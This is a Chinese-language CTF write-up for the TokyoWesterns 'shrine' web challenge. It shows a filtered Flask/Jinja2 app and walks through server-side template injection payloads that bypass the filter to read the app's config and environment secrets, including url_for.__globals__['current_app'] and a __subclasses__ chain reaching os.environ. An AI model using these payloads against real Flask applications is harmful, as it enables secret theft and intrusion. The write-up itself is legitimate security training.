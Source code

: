 ## shrine

题目来源：TokyoWesterns CTF 

https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5423&page=2

访问网站，拿到源码

```python
import flask
import os
app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')
@app.route('/')
def index():
    return open(__file__).read()
@app.route('/shrine/<path:shrine>')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
    return flask.render_template_string(safe_jinja(shrine))
if __name__ == '__main__':
    app.run(debug=True)
```

显然是/shrine/下模板注入，但是要绕过safe_jinjia

如果我们可以用```config```的话

直接

```
/shrine/{{config}} 
->
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': True, 'SECRET_KEY': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'FLAG': 'TWCTF{secret}', 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>
```

可以拿到flag

如果我们可以用```self```

```
/shrine/{{self}}
->
<TemplateReference None>

/shrine/{{self.__dict__}}
->
{'_TemplateReference__context': <Context {'url_for': <function url_for at 0x7f67e7d0cb90>, 'g': <flask.g of 'main'>, 'request': <Request 'http://my_server/shrine/{{self.__dict__}}' [GET]>, 'namespace': <class 'jinja2.utils.Namespace'>, 'lipsum': <function generate_lorem_ipsum at 0x7f67e8dc2c08>, 'aaaa': None, 'range': <type 'xrange'>, 'session': <NullSession {}>, 'dict': <type 'dict'>, 'get_flashed_messages': <function get_flashed_messages at 0x7f67e7d0ccf8>, 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'config': <Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': True, 'SECRET_KEY': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'FLAG': 'TWCTF{secret}', 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>} of None>}
```

也可拿到flag

如果我们可以用```()```

根据Flask SSTI的套路

一步步fuzz

最后可以得到payload

```
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}}
->
'FLAG': 'TWCTF{secret}'
```

然而这些都没有，这怎么办

这里就要利用强大的```current_app```了，拥有当前应用的所有环境

怎么拿到curren_app呢

根据大佬的wp,

一种方法是利用url_for(这里没有过滤)，在```{{url_for.__globals__}}```可以找到current_app

```
'current_app': <Flask 'app'>
```

然后就有payload

```
{{url_for.__globals__['current_app'].config['FLAG']}}
```

或者利用get_flashed_messages也可找到current_app

```
{{get_flashed_messages.__globals__}}
->
```

事实上，遇到flask SSTI,我们不妨可以试试这几个类

```
url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config,self
```



### 参考资料

Flask之SSTI模板注入：

[https://xi4or0uji.github.io/2019/01/15/flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/](https://xi4or0uji.github.io/2019/01/15/flask之ssti模板注入/)

python沙箱逃逸总结：

http://shaobaobaoer.cn/archives/656/python-sandbox-escape

本题详细的wp:

https://ctftime.org/writeup/10895